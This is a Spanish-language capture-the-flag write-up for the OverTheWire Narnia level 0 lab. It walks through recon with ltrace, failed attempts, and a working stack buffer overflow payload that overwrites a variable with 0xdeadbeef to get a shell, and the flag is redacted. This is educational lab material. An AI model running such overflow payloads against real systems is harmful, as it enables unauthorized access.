

```bash
$ ssh narnia0@narnia.labs.overthewire.org -p 2226

$ echo $TARGET
> un binario bocón · un vaso demasiado chico · cuatro bytes de veneno

$ echo $VECTOR
> stack buffer overflow · little endian · scanf sin límite
```

---

## `> [RECON]`

```bash
$ ltrace ./narnia0
```

El binario me escupió `0xdeadbeef` en la cara sin que nadie se lo pidiera.

Si ves ese valor y pensás *"número raro"* —
todavía no estás mirando bien.

> Buscá quién fue **Jerry Saltzer**.
> Buscá por qué ese valor existe donde existe.
> En este mundo nada es decorativo.

---

## `> [HYPOTHESIS]`

```diff
+ buf[20] con scanf que acepta 24 → overflow controlable
+ val vive en stack justo después de buf → se puede pisar
+ 0xdeadbeef en little endian → bytes al revés
- pensé que con echo -e alcanzaba
- olvidé que Python 3 quiere ser inteligente con el encoding
```

---

## `> [ATTEMPTS]`

<details>
<summary><code>// l0s 3rr0r3s s0n d3 4c4. n0 l0s s4lt33s.</code></summary>

```bash
# — intento 1
$ echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | ./narnia0
# los bytes llegaron sucios. echo -e no manda raw. nunca más.

# — intento 2
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xef\xbe\xad\xde")' | ./narnia0
# la shell abrió y se cerró antes de que pudiera respirar.
# faltaba el cat. faltaba mantener stdin vivo.

# — intento 3
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xef\xbe\xad\xde")'; cat) | ./narnia0
# ahí.
```

</details>

---

## `> [BREAK]`

El stack antes del exploit:

```
direcciones bajas ↓

  [ buf ] [ buf ] [ buf ] ... [ buf ]  [        val        ]
     0       1       2    ...   19     

direcciones altas ↑
```

El stack después:

```
  [ A  ][ A  ][ A  ] ... [ A  ] [ ef ][ be ][ ad ][ de ]
    ↑— — — — 20 bytes — — — — ↑  ↑— — 0xdeadbeef — — ↑
```

Veinticuatro bytes en un espacio de veinte.
Los cuatro que sobraron no desaparecieron.
Se chorrearon sobre `val` y lo pisaron.

Eso es todo.
No es magia. Es que la memoria es lineal y sintetizo exactamente un descuido.

---

## `> [EXPLOIT]`

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xef\xbe\xad\xde")'; cat) | ./narnia0
```

```
python3 -c              → directo. sin archivos. sin preámbulo.
sys.stdout.buffer.write → bytes puros. sin que Python filtre nada.
b"A"*20                 → el vaso hasta el borde. ni uno más.
b"\xef\xbe\xad\xde"     → 0xdeadbeef al revés. little endian.
                           si no sabés por qué los procesadores
                           leen así, buscá a Danny Cohen.
                           si no lo buscás, sos turista.
; cat                   → soporte vital.
                           sin esto la shell se cierra en tu nariz.
```

---

## `> [FLAG]`

```
[REDACTED]
```

> n0 m3 l4 d1g4s. n0 m3 1nt3r3s4.
> 3l pr3m10 n0 3s un str1ng d3 t3xt0.

---

## `> [REFLECTION]`

```diff
+ ltrace primero. siempre. el binario habla si sabés escuchar.
+ cat como soporte vital → patrón que se repite. grabalo.
+ little endian no es detalle. es el alfabeto de la arquitectura.
- echo -e para bytes raw → nunca más. aprendido con sangre.
```

---

## `> echo $CHALLENGE`

El programador dejó que entraran 24 bytes en un espacio de 20.

Explicame qué tiene que ver ese error
con el **hundimiento del Ariane 5 en 1996**.

El que lo encuentre va a entender por qué cuatro bytes
pueden costar quinientos millones de dólares.

Lo demás es charla de café.

---

```
█████████████████████████████████████████████
█                                           █
█   3l d3sb0rd3 n0 fu3 un 4cc1d3nt3.       █
█             fu3 un 4v1s0.                 █
█                                           █
█████████████████████████████████████████████
```

> *→[https://youtube.com/t474-r0b07](https://youtube.com/@kaderd.garnica?si=9vk1E6Gkkb7LftTK)*
> ---
> *→ siguiente: [narnia1](narnia1.md)*
> 
> > 🔴 **ATENCIÓN: EL RASTRO SE DESVÍA**
>
> La superficie solo muestra lo que quieren que veas. Para descifrar el origen, tu viaje comienza en las profundidades del repositorio.
> 
> 🧭 **[ACCEDER AL MAPA DEL TESORO / ÍNDICE DEL LORE](https://github.com/t474-r0b07/ctf-writeups/tree/main/lore)**
---
<!-- 0x4e 0x41 0x52 0x4e 0x49 0x41 // 3l 0r1g3n 3s 0tr0 l4d0 -->
